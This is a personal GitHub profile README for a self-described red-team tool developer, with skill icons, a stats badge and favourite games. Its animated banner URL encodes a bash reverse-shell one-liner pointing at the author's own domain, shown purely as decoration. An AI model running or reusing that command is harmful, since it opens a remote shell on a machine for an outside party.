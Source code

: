 ## 😸 Welcome To My GitHub !
[![Typing SVG](https://readme-typing-svg.demolab.com?font=&pause=1500&color=00FF00&background=000000&vCenter=true&random=false&width=435&lines=%E2%AC%9B%3E+bash+-i+%3E%26+%2Fdev%2Ftcp%2Fhackercalico.github.io%2F443+0%3E%261)](https://git.io/typing-svg)
## :octocat: About Me
我是 Calico，一只专注于 Red Team 武器化的 Cyber Cat。  
我喜欢尝试新事物、思考创新点，开发一些非常酷的黑客工具！

<p>
  <img src="https://github.com/devicons/devicon/blob/master/icons/bash/bash-original.svg" title="bash" alt="bash" width="50" height="50"/>
  <img src="https://github.com/devicons/devicon/blob/master/icons/c/c-original.svg" title="c" alt="c" width="50" height="50"/>
  <img src="https://github.com/devicons/devicon/blob/master/icons/cplusplus/cplusplus-original.svg" title="cplusplus" alt="cplusplus" width="50" height="50"/>
  <img src="https://github.com/devicons/devicon/blob/master/icons/csharp/csharp-original.svg" title="csharp" alt="csharp" width="50" height="50"/>
  <img src="https://github.com/devicons/devicon/blob/master/icons/go/go-original.svg" title="go" alt="go" width="50" height="50"/>
  <img src="https://github.com/devicons/devicon/blob/master/icons/python/python-original.svg" title="python" alt="python" width="50" height="50"/>
  <img src="https://github.com/devicons/devicon/blob/master/icons/java/java-original.svg" title="java" alt="java" width="50" height="50"/>
  <img src="https://github.com/devicons/devicon/blob/master/icons/php/php-original.svg" title="php" alt="php" width="50" height="50"/>
  <img src="https://github.com/devicons/devicon/blob/master/icons/raspberrypi/raspberrypi-original.svg" title="raspberrypi" alt="raspberrypi" width="50" height="50"/>
</p>

![Anurag's GitHub stats](https://github-readme-stats.vercel.app/api?username=HackerCalico&show_icons=true&theme=transparent)
<img src="https://raw.githubusercontent.com/HackerCalico/Blog-Resource/main/2.gif" alt="GIF" align="linuxQ" width="170"/>
## 💛 My Favorite
Minecraft、Hollow Knight、Spore  
NO GAME NO LIFE、呪術廻戦、無職転生
